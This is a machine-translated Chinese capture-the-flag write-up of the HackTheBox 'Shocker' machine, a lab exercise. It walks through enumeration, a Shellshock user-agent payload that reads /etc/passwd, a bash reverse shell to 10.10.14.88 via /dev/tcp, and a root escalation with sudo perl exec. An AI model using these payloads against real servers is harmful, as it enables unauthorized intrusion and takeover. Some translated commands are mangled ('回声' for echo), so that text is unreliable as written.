








# 黑客盒子的修卡

> 原文：<https://infosecwriteups.com/shocker-from-hackthebox-52378519fb5b?source=collection_archive---------3----------------------->

## Shellshock 和 Perl 等同于修卡

你好，了不起的黑客，我希望你今天做得很好，我们要做的是来自 Hackthebox 的**修卡**它是一个很容易退役的 Linux 机器，我们在其中使用 **shellshock** 漏洞来获得最初的立足点，我们使用 Perl 将我们的特权升级到 root 用户。那么让我们开始吧……

**我们需要的工具:-**

**现在我们将开始 nmap 扫描:-**

两个端口是开放的，一个是端口 80 (http)，另一个是 2222(ssh)。我将首先检查端口 80(因为它具有更大的攻击面)

检查端口 80

嗯，这里没什么有趣的。现在我将尝试目录暴力。过了一会儿，我得到了 **/cgi-bin**

dirb 扫描

然后我试着在 **/cgi-bin** 上运行 **go buster** ，我得到了 **/user.sh**

Gobuster 结果

我厌倦了检查 **/user.sh** ，似乎 [**uptime**](https://www.geeksforgeeks.org/linux-uptime-command-with-examples/) 命令正在运行。

checking /user.sh

所以我想为什么不试试 shellshock。你可能想知道 shellshock 到底是什么？？

## 简单来说，这是 bash 中的一个漏洞，使得攻击者能够在使用 bash 处理请求的面向互联网的 web 服务器上执行任意命令。

# 让我们开发……..

## 我们将首先手动尝试:-

> 去拦截请求[http://{ IP }/CGI-bin/user . sh](http://{ip}/cgi-bin/user.sh)。然后把 user-agent 改成**(){:；};回声；回声；/bin/bash-c ' cat/etc/passwd '**

[**https://media.giphy.com/media/sKUFOXcYQnDmpyqJca/giphy.gif**](https://media.giphy.com/media/sKUFOXcYQnDmpyqJca/giphy.gif)

> 现在我将尝试获得 reverse shell**(){:；};回声；回声；/bin/bash-c ' bash-I>&/dev/TCP/10 . 10 . 14 . 88/1234 0>&1 '清除**

获取版本外壳

[https://media.giphy.com/media/zG8AlgXlmmPWtCNBxJ/giphy.gif](https://media.giphy.com/media/zG8AlgXlmmPWtCNBxJ/giphy.gif)

# 现在我们将尝试使用 metasploit 获取 shell

metasploit

# 我们需要将我们的权限提升到根用户

因此，我的方法是始终运行以下命令:-

(I)sudo-version(它给出了 sudo 版本，我们可以使用该版本来搜索 sudo 是否易受攻击)

(ii) sudo -l(简单地说，它告诉我们用户可以作为根用户或不同用户运行哪个二进制文件)

(iii) cat /etc/crontab ( [它打印出哪些 cronjobs 正在运行](https://linuxize.com/post/how-to-list-cron-jobs-in-linux/))。

(四)我们不能忘记林豌豆

> 我们可以作为根用户运行 Perl。所以让我们去找我们的好朋友 [gtfo bin](https://gtfobins.github.io/) 了解一下我们如何以根用户的身份使用 Perl 来执行命令

须岛一号

我们可以使用这个命令`sudo perl -e 'exec "/bin/sh";'`来获得根

gtfo bin perl

我们有了根

但是等等**什么鬼** `sudo perl -e 'exec "/bin/sh";'`？？？

我们可以**以 **root** 用户身份执行** **Perl** 而无需任何**密码**。并且- **e** [意味着它允许你定义由编译器](https://www.perl.com/pub/2004/08/09/commandline.html/)执行的 Perl 代码，而 **exec** 就像 Perl 中的一个函数，允许我们运行 **/bin/bash**

谢谢你读这篇文章，我很想听到你的反馈，这样我就可以提高我的写作水平。如果你有任何问题，你可以在推特上给我发短信[https://twitter.com/Hac10101](https://twitter.com/Hac10101)